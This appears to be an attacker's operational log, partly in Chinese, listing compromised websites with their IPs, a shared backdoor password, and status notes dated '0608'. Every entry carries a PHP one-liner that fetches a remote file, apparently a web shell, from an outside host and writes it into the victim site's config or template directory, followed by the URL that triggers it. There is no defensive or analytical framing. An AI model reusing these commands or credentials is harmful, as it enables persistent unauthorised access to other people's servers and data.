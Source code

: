 https://sapporo.cookiesmall.com/index_bk.php |mmk123 |  81.69.249.19

代码更新：0608
https://sapporo.cookiesmall.com/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/sapporo.cookiesmall.com/template/welcome.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：执行有问题，显示内存不足
https://sapporo.cookiesmall.com/template/welcome.php


https://42.51.41.208/template/template_init.php |mmk123 
代码更新：0608 无法正常访问
https://42.51.41.208/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/hkcdn/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：执行有问题，显示内存不足
https://42.51.41.208/config/httpd.php?d=up


https://123456vip.top/template/template_init.php |mmk123 |  154.12.81.159
代码更新：0608 OK ✅
https://123456vip.top/rewrite/httpd.php
/www/wwwroot/74724/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/74724/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://123456vip.top/config/httpd.php?d=up


http://114.55.55.0/template/template_init.php |mmk123 
代码更新：0608 404 ❌

http://112.126.69.37/template/template_init.php |mmk123 
代码更新：0608 ✅
http://112.126.69.37/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/www.huishou.com/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.126.69.37/config/httpd.php?d=up


http://8.138.18.52/template/template_init.php |mmk123 
/www/wwwroot/8.138.18.52/rewrite/
代码更新：0608 ✅
http://8.138.18.52/rewrite/httpd.php
<?php file_put_contents("/www/wwwroot/8.138.18.52/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.138.18.52/config/httpd.php?d=up

http://120.79.179.113/template/template_init.php |mmk123 
代码更新：0608 ✅
http://120.79.179.113/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://120.79.179.113/config/httpd.php?d=up
